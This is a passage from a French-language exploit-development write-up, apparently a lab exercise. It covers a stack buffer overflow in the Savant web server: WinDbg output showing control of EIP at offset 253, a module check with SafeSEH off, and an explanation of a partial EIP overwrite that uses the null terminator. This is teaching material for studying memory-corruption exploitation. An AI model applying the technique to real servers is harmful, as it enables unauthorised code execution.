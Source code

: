 ```powershell
(168c.16c4): Access violation - code c0000005 (first chance)
[...]
eax=ffffffff ebx=01995778 ecx=58fe6b05 edx=00000000 esi=01995778 edi=0041703c
eip=42424242 esp=0461ea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
42424242 ??              ???
```

`253` est donc l'offset exact pour réécrire `EIP`.

### Réécriture partielle de EIP

On identifie que le seul module charge contient un *null byte* au sein de son adresse de début. Les *null byte* sont des mauvais caractères, surtout dans notre cas ou le *buffer* est traite comme un *string*. Les *null byte* entraine la fin du string.

```powershell
0:004> .load narly
#
0:004> !nmod
00400000 00452000 Savant               /SafeSEH OFF                C:\Savant\Savant.exe
```

Aucun autre module n'est disponible en dehors de l'exécutable principal. Cependant cet exécutable contient des *null bytes* dans son adresse.

> Note : Choisir un module Microsoft impliquerait que l'adresse change à chaque version de Windows et il faudrait travailler à contourner les protections mises en place dans les binaires de Microsoft

On se souvient que notre buffer est traité comme un string en mémoire et qu'il finit donc par `00` pour terminer le string. On confirme le comportement en relançant l'exploit :

```powershell
0:009> g
(1638.166c): Access violation - code c0000005 (first chance)
[...]
eax=ffffffff ebx=01835778 ecx=743857dc edx=00000000 esi=01835778 edi=0041703c
eip=42424242 esp=0456ea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
42424242 ??              ???
#
0:004> dds @esp L4
0456ea2c  00434343 Savant+0x34343
0456ea30  0456ea84
```

Le *buffer* est bien terminé par un caractère *null*, permettant d'utiliser la technique réécriture partielle de `EIP` ou *partial EIP overwrite*.

Comme l'exécutable de `Savant.exe` est mappe dans une gamme d'adresse qui commence avec un *null byte* on pourrait utiliser le string *null* de fin de chaine comme faisant partie de notre réécriture de `EIP`. Ceci nous permettra de rediriger le flot d'exécution vers n'importe quelle instruction dans le module `Savant.exe`.

Un effet de bord de la réécriture partiel de `EIP` est que l'on ne peut stocker aucune autre data après l'adresse de retour, car le *null byte* va terminer le string.
